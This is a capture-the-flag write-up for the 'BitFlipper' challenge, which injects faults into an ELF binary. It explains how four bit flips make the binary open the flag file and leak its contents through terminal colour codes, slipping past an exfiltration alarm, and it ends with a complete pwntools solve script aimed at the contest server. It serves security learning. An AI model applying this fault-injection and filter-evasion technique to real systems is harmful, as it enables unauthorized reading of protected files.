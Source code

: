 # BitFlipper

When we first connect to the service, we are prompted with:

```-------------------------------------------------------
      Bitflipper - ELF Fault Injection Framework
-------------------------------------------------------
Test program md5:  30acc4aee186d6aef8e9e2036008a710
-------------------------------------------------------
How many faults you want to introduce?```

After playing around with this for a while, I discover:
- This service flips the bits of an ELF binary
- You can introduce at most 4 faults
- Server runs the binary
- Introducing 0 bits does a fancy directory listing
- Server will dump any core files in the directory

The files are as follows:
```README
abc.jpg
archive.zip
beta.doc
celtic.png
dir
secret_flag.txt
test.doc
version.txt
```

If we make the binary a core file, then the server will give it to us! We can do this by looking at the wikipedia for ELF headers (https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) and see that if the value at offset 0x10 is 4, then it is a core file. So we flip the byte at offset 0x10 to a 4, and the server returns the ELF binary.

I first started with static analysis. Loading it into IDA, we begin to reverse engineer it. Here is what it does:

1) opens current directory and loads all filenames into an array
2) opens ".dircolors" and loads the value before a newline into a global array, we will call this the colors array
3) iterates through filename array and prints the filename the color loaded in the colors array

We only have four bits to flip, so that suggests that our changes will have to be within the existing code. First thing's first, the absolute necessity is to have an open filestream to the secret_flag.txt. Otherwise, we would never be able to access its contents. Since we only have four bits, we have to reuse code. Looking at step 2 above, in that function we see that the binary opens a file, reads it into a bufer, then gets loaded into a buffer.

To find out how to open the file, I began performing dynamic analysis. Setting a breakpoint right before the open function where the string pointer to ".dircolors" is loaded into rdi, I find that right before it's loaded, rdi is pointing to a filename! More specifically, the first file in my directory. So, if we change this instruction to load the string pointer to some register we don't care about, then the open function performs open on the first file! I changed mov rdi, filepointer to mov rdx, filepointer using the bit flip at offset 0xdb0*8+5.

Now that we have a open primitive, we want to get it to open our flag file. To do this, we can look in the main function and see that there is a check for the first character of the filename in the directory:

```
v11->d_name[0] > 47 && v11->d_name[0] <= 122
```

So we can actually change the lower bound of this ascii check to something higher than ord('d'). Thus, everything before secret_flag.txt will be cut off, and the flag will be the first file which then gets passed to open. I did this by flipping the bit at 0xfcf*8+6.

Now, we have to read the flag that is loaded into memory with 2 bits left. After the flag contents is loaded into a buffer, it eventually gets freed. So I thought if you change free(buf) to printf(buf), then it would print the flag! We can do this with 2 bits too. However, when I tried this, I got: 

```
ALARM!!
The output contained the content of a local file.
This is in violation of the security policy --> the exfiltration attempt has been blocked!!
```

Drats. What kind of alarm is this >:(

So the correct way to do it is to change the newline check when iterating through the buffer from if ( *((_BYTE *)buf + v1) == 10 ) to if ( *((_BYTE *)buf + v1) != 10 ). This ensures that every character in buf gets put into the colors array, instead of just the last character. I did this using offset 0xe85*8. Next we look in main and see that there is a check to only print each filename once:

```
v5 = 0;
    for ( k = 0; k <= 15 && v5 == 0 && qword_202040[k]; ++k )
    {
      if ( strstr(*j, *qword_202040[k]) )
      {
        printf("\x1B[%dm%s\x1B[0m\n", (unsigned int)(*((_DWORD *)qword_202040[k] + 2) + 30), *j, v4);
        v5 = 1;
      }
    }
 ```

The colors array is iterated, however it only gets printed once because of v5. So, if we change v5 = 1 to v5 = 0, then everything in colors array will get printed. This is offset 0x10fb*8.

Now using these four bit flips, we run it on the server and get:

```
['\x1b[-18msecret_flag.txt\x1b[0m', '\x1b[80msecret_flag.txt\x1b[0m', '\x1b[87msecret_flag.txt\x1b[0m', '\x1b[98msecret_flag.txt\x1b[0m', '\x1b[84msecret_flag.txt\x1b[0m', '\x1b[90msecret_flag.txt\x1b[0m', '\x1b[87msecret_flag.txt\x1b[0m', '\x1b[94msecret_flag.txt\x1b[0m', '\x1b[77msecret_flag.txt\x1b[0m', '\x1b[91msecret_flag.txt\x1b[0m', '\x1b[79msecret_flag.txt\x1b[0m', '\x1b[82msecret_flag.txt\x1b[0m', '\x1b[92msecret_flag.txt\x1b[0m', '\x1b[83msecret_flag.txt\x1b[0m', '\x1b[97msecret_flag.txt\x1b[0m', '\x1b[97msecret_flag.txt\x1b[0m', 'secret_flag.txt', '\x1b[-18mtest.doc\x1b[0m', '\x1b[80mtest.doc\x1b[0m', '\x1b[87mtest.doc\x1b[0m', '\x1b[98mtest.doc\x1b[0m', '\x1b[84mtest.doc\x1b[0m', '\x1b[90mtest.doc\x1b[0m', '\x1b[87mtest.doc\x1b[0m', '\x1b[94mtest.doc\x1b[0m', '\x1b[77mtest.doc\x1b[0m', '\x1b[91mtest.doc\x1b[0m', '\x1b[79mtest.doc\x1b[0m', '\x1b[82mtest.doc\x1b[0m', '\x1b[92mtest.doc\x1b[0m', '\x1b[83mtest.doc\x1b[0m', '\x1b[97mtest.doc\x1b[0m', '\x1b[97mtest.doc\x1b[0m', 'test.doc', '\x1b[-18mversion.txt\x1b[0m', '\x1b[80mversion.txt\x1b[0m', '\x1b[87mversion.txt\x1b[0m', '\x1b[98mversion.txt\x1b[0m', '\x1b[84mversion.txt\x1b[0m', '\x1b[90mversion.txt\x1b[0m', '\x1b[87mversion.txt\x1b[0m', '\x1b[94mversion.txt\x1b[0m', '\x1b[77mversion.txt\x1b[0m', '\x1b[91mversion.txt\x1b[0m', '\x1b[79mversion.txt\x1b[0m', '\x1b[82mversion.txt\x1b[0m', '\x1b[92mversion.txt\x1b[0m', '\x1b[83mversion.txt\x1b[0m', '\x1b[97mversion.txt\x1b[0m', '\x1b[97mversion.txt\x1b[0m', 'version.txt', '', '-------------------------------------------------------']
```

Extracting the decimal values before m, ['80', '87', '98', '84', '90', '87', '94', '77', '91', '79', '82', '92', '83', '97', '97'], then converting it to ascii gives us gibberish. The reason is because of these two lines:

```
*((_DWORD *)v3 + 2) -= 48;
printf("\x1B[%dm%s\x1B[0m\n", (unsigned int)(*((_DWORD *)qword_202040[k] + 2) + 30), *j, v4);
```

When the value is being loaded, it gets subtracted by 48. When it is being printed, 30 is added to its value. Therefore we have to add 18 to each decimal value for the flag.

Solve script:
```python
from pwn import *
def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()

def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0
def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1
p=remote('61421a06.quals2018.oooverflow.io', 5566)
p.recvuntil("Challenge: ")
x=p.recvline()[:-1]
p.recvuntil("n: ")
y=int(p.recvline()[:-1])
p.recv()
ans=solve_pow(x,y)
p.sendline(str(ans))

openheap=0xdb0*8+5
lowlim = 0xfcf*8
jnz = 0xe85*8
foundcolor = 0x10fb*8
p.sendline("4")
p.sendline(str(jnz))
p.sendline(str(openheap))
p.sendline(str(lowlim+6))
p.sendline(str(foundcolor))
p.recvuntil("now...")
p.recvuntil("-------------------------------------------------------")
sice = p.recvuntil("-------------------------------------------------------").strip().split("\n")

flag = ""
for i in sice:
    flag += chr(int(i.strip("\x1b[").split("m")[0]) + 18)
    print flag

p.interactive()
```

## Flag: bitflip_madness
